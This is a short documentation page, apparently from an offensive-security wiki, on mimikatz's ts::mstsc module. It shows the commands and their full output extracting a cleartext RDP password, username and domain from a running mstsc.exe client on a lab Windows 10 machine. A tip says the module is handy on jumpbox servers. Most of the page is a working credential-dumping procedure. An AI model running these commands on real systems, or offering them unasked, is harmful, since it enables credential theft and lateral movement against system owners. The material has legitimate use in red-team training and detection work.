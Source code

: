 # mstsc

This module can be used to extracts cleartext credentials from the mstsc process \(client side\)

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # ts::mstsc
!!! Warning: false positives can be listed !!!

| PID 2992      mstsc.exe (module @ 0x000000000055F6F0)

ServerName                                [wstring] '192.168.0.239'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '192.168.0.239'
UserName                                  [wstring] 'administrator'
Domain                                    [wstring] 'hacklab'
Password                                  [protect] 'Super_SecretPass1!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '192.168.0.239'
RDmiUsername                              [wstring] 'hacklab\administrator'
```

{% hint style="warning" %}
It must be noted that an RDP session must be running in order to retrieve credentials via `ts::mstsc`. It comes in handy in jumpbox servers!
{% endhint %}

_\(Demonstration target is a Windows 10 Pro\)_


